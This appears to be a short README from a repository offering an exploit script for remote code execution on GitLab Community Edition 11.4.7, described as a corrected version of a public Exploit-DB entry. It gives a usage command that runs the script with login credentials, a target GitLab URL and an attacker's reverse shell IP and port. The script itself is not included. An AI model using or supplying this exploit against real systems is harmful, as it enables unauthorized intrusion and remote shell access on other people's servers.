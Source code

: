 # Gitlab Community Edition 11.4.7 RCE

There is a minor mistake in https://www.exploit-db.com/exploits/49334

Now, You can use this script to execute rce.

## Usage 

python3 rce.py -u Username -p Password -g http://<gitlab_url> -l <Reverse_Shell_IP> -P <Reverse_Shell_Port>

Note: check gitlab port in script if your testing environment is not hosted on default port(5080).
